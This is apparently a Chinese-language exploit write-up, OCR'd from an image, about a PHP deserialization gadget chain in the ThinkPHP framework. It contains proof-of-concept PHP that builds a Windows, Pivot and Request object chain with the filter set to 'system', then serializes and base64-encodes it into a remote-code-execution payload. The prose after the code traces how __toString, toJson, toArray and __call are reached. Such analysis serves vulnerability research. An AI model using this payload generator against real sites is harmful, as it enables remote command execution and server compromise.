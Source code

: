         protected $config = [
            // 表单请求类型伪装变量
            'var_method'       => '_method',
            // 表单ajax伪装变量
            'var_ajax'         => '_ajax',
            // 表单pjax伪装变量
            'var_pjax'         => '_pjax',
            // PATHINFO变量名 用于兼容模式
            'var_pathinfo'     => 's',
            // 兼容PATH_INFO获取
            'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
            // 默认全局过滤方法 用逗号分隔多个
            'default_filter'   => '',
            // 域名根，如thinkphp.cn
            'url_domain_root'  => '',
            // HTTPS代理标识
            'https_agent_name' => '',
            // IP代理获取标识
            'http_agent_ip'    => 'HTTP_X_REAL_IP',
            // URL伪静态后缀
            'url_html_suffix'  => 'html',
        ];
        function __construct(){
            $this->filter = "system";
            $this->config = ["var_ajax"=>''];
            $this->hook = ["visible"=>[$this,"isAjax"]];
        }
    }
    namespace think\process\pipes;

    use think\model\concern\Conversion;
    use think\model\Pivot;
    class Windows
    {
        private $files = [];

        public function __construct()
        {
            $this->files=[new Pivot()];
        }
    }
    namespace think\model;

    use think\Model;

    class Pivot extends Model
    {
    }
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));
    ?>

file\_exists如果传入的是对象,将会将对象以字符串的形式处理。而**toString魔术方法是当一个对象被当作字符串对待的时候,会触发这个魔术方法。所以全局搜索带有toString函数的类。****最后找到\\thinkphp\\library\\think\\model\\concern\\Conversion.php的Conversion类****后面的调用流程是**
toString\-\--\>\$this-\>toJson\-\-\--\>\$this-\>toArray跟进到toArray方法里，在3.1.38的poc里是通过调用\$relation-\>visible方法，向\$relation传入request对象，而request对象没有visible方法，从而调用\*\*call方法。而我们这里也可以使用这种方法。(注意:\*\*call传入的第一个参数是方法名，第二个参数是参数数组。所以这里传入\_\_call方法的方法名为append，而不是原来的visible)
